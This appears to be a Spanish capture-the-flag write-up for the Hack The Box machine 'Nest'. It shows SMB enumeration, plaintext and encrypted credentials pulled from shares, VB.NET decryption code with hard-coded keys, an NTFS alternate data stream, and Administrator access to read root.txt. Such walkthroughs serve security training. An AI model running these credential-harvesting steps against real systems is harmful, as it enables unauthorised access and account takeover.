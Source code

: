 
- Maquina: Windows
- Level: Easy
- IP: 10.10.10.178

## Herramientas a utilizar:

- nmap
- smbclient 
- smbget

```
nmap -sC -sV -o scan_nest.txt 10.10.10.178
```
Podemos verificar que esta maquina tiene SMB abierto.
|PORT|STATE SERVICE|VERSION|
|---|---|---|
|445/tcp| open | microsoft-ds?
>Host script results:
|_clock-skew: 1m32s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required


El cual podemos enumerar con y verificar los share disponible
```
smbclient -L \\\\10.10.10.178 
```

Utilizaremos el share `data` por que puede ser accedido sin credenciales.
```
smbclient \\\\10.10.10.178\\Data
smb: \> recurse on 
smb: \> ls
smb: \> cd Shared\Templates\HR\
smb: \> cd \Shared\Templates\HR\> ls
```

Aqui encontraremo un archivo el cual descargaremos a nuestra maquina para posterior revision.
```
smb: \> mget "Welcom Email.txt"
```

Luego iremos a siguiente directorio:
```
smb: \> cd ../../Maintenance\
```
Tambien descargaremos `Maintenance Alerts.txt` para su posterior revision.
```
smb: \Shared\Maintenance\> mget "Maintenance Alerts.txt"
```

>Al abrir el archivo: Maintenance Alerts.txt encontraremos lo siguiente:
Username: TempUser
Password: welcome2019

Ahora tenemos las credenciales del usuario TempUser.
```
smbclient \\\\10.10.10.178\\Data -U TempUser
smb: \> recurse on
smb: \> ls
```

Ahora al listar veremos el directorio de TI por lo cual descargaremos todos directorio TI.
```
smbget -R smb://10.10.10.178/Data/ -U TempUser
```
Bucando entre todo el contenido descargado veremos dos archivo my peculiares
`RU_Config.xml`
`config.xml`
```
Data//IT/Configs/RU Scanner/RU_Config.xml
```
En el archivo `RU_Config.xml` veremos:
> <?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
 <Port>389</Port>
 **<Username>c.smith</Username>**
 **<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>**
</ConfigFile>

En el archivo `config.xml` veremos:
```
Data//IT/Configs/NotepadPlusPlus/config.xml
```

><?xml version="1.0" encoding="Windows-1252" ?>
<NotepadPlus>
[SNIP]
 <History nbMaxFile="15" inSubMenu="no" customLength="-1">
 <File filename="C:\windows\System32\drivers\etc\hosts" />
 <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
 <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
 </History>
</NotepadPlus>

Aqui al parecer podemos alguien estaba accediendo al archivo en el recurso compartido **Secure$**
así como tambien al archivos en el escritorio del usuario de **C.Smith.**

Verificamos si podemos acceder **Secure$** como TempUser:

```
smbclient \\\\10.10.10.178\\Secure$ -U TempUser
```
Pero con el usuario TempUser no tenemos acceso pero si directamente en `IT\Carl\`
```
smbget -rR smb://10.10.10.178/Secure$/IT/Carl/ -U TempUser
```
En este directorio encontramos dos archivo `Module1.vb` and `Utils.vb`
>Que despues de muchas vuelta he caido encuenta que estos archivos los puedo utilizar para descryptar el password encontrado en el archivo `RU_config.xml`.

Pero para lograr hacerlo debo unificar ambos archivos y en 
```
https://dotnetfiddle.net
```
El contenido del archivo seria:
```
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils
	Public Class ConfigFile
 Public Property Port As Integer
 Public Property Username As String
 Public Property Password As String

 Public Sub SaveToFile(Path As String)
 Using File As New System.IO.FileStream(Path, System.IO.FileMode.Create)
 Dim Writer As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
 Writer.Serialize(File, Me)
 End Using
 End Sub

 Public Shared Function LoadFromFile(ByVal FilePath As String) As ConfigFile
 Using File As New System.IO.FileStream(FilePath, System.IO.FileMode.Open)
 Dim Reader As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
 Return DirectCast(Reader.Deserialize(File), ConfigFile)
 End Using
 End Function
 
End Class
 Public Shared Function DecryptString(EncryptedString As String) As String
 If String.IsNullOrEmpty(EncryptedString) Then
 Return String.Empty
 Else
 Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
 End If
 End Function

 Public Shared Function Decrypt(ByVal cipherText As String, _
 ByVal passPhrase As String, _
 ByVal saltValue As String, _
 ByVal passwordIterations As Integer, _
 ByVal initVector As String, _
 ByVal keySize As Integer) _
 As String
 Dim initVectorBytes As Byte()
 initVectorBytes = Encoding.ASCII.GetBytes(initVector)
 Dim saltValueBytes As Byte()
 saltValueBytes = Encoding.ASCII.GetBytes(saltValue)
 Dim cipherTextBytes As Byte()
 cipherTextBytes = System.Convert.FromBase64String(cipherText)
 Dim password As New Rfc2898DeriveBytes(passPhrase, _
 saltValueBytes, _
 passwordIterations)
 Dim keyBytes As Byte()
 keyBytes = password.GetBytes(CInt(keySize / 8))
 Dim symmetricKey As New AesCryptoServiceProvider
 symmetricKey.Mode = CipherMode.CBC
 Dim decryptor As ICryptoTransform
 decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)
 Dim memoryStream As System.IO.MemoryStream
 memoryStream = New System.IO.MemoryStream(cipherTextBytes)
 Dim cryptoStream As CryptoStream
 cryptoStream = New CryptoStream(memoryStream, _
 decryptor, _
 CryptoStreamMode.Read)
 Dim plainTextBytes As Byte()
 ReDim plainTextBytes(cipherTextBytes.Length)
 Dim decryptedByteCount As Integer
 decryptedByteCount = cryptoStream.Read(plainTextBytes, _
 0, _
 plainTextBytes.Length)
 memoryStream.Close()
 cryptoStream.Close()
 Dim plainText As String
 plainText = Encoding.ASCII.GetString(plainTextBytes, _
 0, _
 decryptedByteCount)
	System.Console.WriteLine(plainText)
	Return plainText
 End Function

Public Class SsoIntegration
 Public Property Username As String
 Public Property Password As String
End Class

 Sub Main()
 Dim test As New SsoIntegration With {.Username = "c.smith", .Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")}
 End Sub
End Class
```

Con este codigo podemos tener el password del usuario `C.Smith`
**password: xRxRxPANCAK3SxRxRx**

Ahora probaremos con el usuario y clave encontrado
```
smbclient \\\\10.10.10.178\\Users -U C.Smith
cd C.Smith
get user.txt
```
Listo no fue nada facil, pero ya tenemos la primera flag 👏

Ahora a por el root donde en el siguiente directorio
 `C.Smith\HQK Reporting` 
 Veremos dos archivos
 `Debug Mode Password.txt` y `Debug Mode Password.txt:Password`

Veremos el archivo `debug mode password.txt:password` este archivo en particular tiene un formato **File-Streams** que investigando me encontre que:
https://docs.microsoft.com/en-us/windows/win32/fileio/file-streams

>Es una secuencia de bytes. En el sistema de archivos NTFS, las secuencias contienen los datos que se escriben en un archivo y que brindan más información sobre un archivo que los atributos y propiedades. Por ejemplo, puede crear una secuencia que contenga palabras clave de búsqueda o la identidad de la cuenta de usuario que crea un archivo.

```
more "Debug Mode Password.txt:Password"
```
Y en este tenemos un password:
**PASSWORD DEBUG: WBQ201953D8w**

Hacemos un telnet por el puerto 4386
```
telnet 10.10.10.178 4386
DEBUG WBQ201953D8w 
setdir ..
setdir LDAP
showquery 2
Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```
Aqui encontramos un password y utilizaremos la siguiente web en la cual encontramos un codigo que copiaremos.
https://pastebin.com/RfZhBcq9


Luego debemos ir a:
https://dotnetfiddle.net/Z9MZYl 

Pegamos el codigo encontrado parametrizar lo siguiente
`Language: C#`
`Compiler: .net 4.7.2`

Ejecutamos y el resultado sera:
The magical rootdance key is:
XtH4nkS4Pl4y1nGX

```
smbclient \\\\10.10.10.178\\c$ -U Administrator
cd \Users\Administrator\Desktop\
more root.txt
```

